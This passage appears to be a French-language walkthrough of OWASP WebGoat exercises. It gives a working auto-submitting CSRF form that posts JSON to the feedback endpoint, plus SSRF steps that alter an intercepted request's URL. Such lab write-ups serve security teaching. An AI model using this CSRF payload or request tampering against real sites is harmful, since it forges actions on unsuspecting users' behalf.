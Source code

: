 Sauvegarder le code suivant dans un fichier **csrf.html** et l'ouvrir dans un navigateur. 

```html
<form name="attack" enctype="text/plain" action="http://host:port/WebGoat/csrf/feedback/message" method="POST">  
     <input type="hidden" name='{"name": "Test", "email": "test1233@dfssdf.de", "subject": "service", "message":"dsaffd"}'>  
</form>  
<script>document.attack.submit();</script>
```

8.  
![Hint](images/wiki_owasp_webgoat/hint.png) First create a new account with csrf-username  
![Hint](images/wiki_owasp_webgoat/hint.png) Create a form which will log you in as this user (hint 1) and upload it to WebWolf  
![Hint](images/wiki_owasp_webgoat/hint.png) Visit this assignment again

Suivre les instructions. Follow the instructions.

##### Server-Side Request Forgeries

2.  
![Hint](images/wiki_owasp_webgoat/hint.png) You should use an HTTP proxy to intercept the request and change the URL.  
![Hint](images/wiki_owasp_webgoat/hint.png) If Tom is images/tom.png, Jerry would be images/jerry.png.

*   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, cliquer sur **Steal the Cheese**.
*   Repérer la requête vers `task1` dans l'onglet _Réseau_ et cliquer sur _Modifier et Renvoyer_.
*   Modifier le corps de la requête en `url=images/jerry.png`, et la renvoyer.

![SSRF 2](images/wiki_owasp_webgoat/ssrf-2.png)
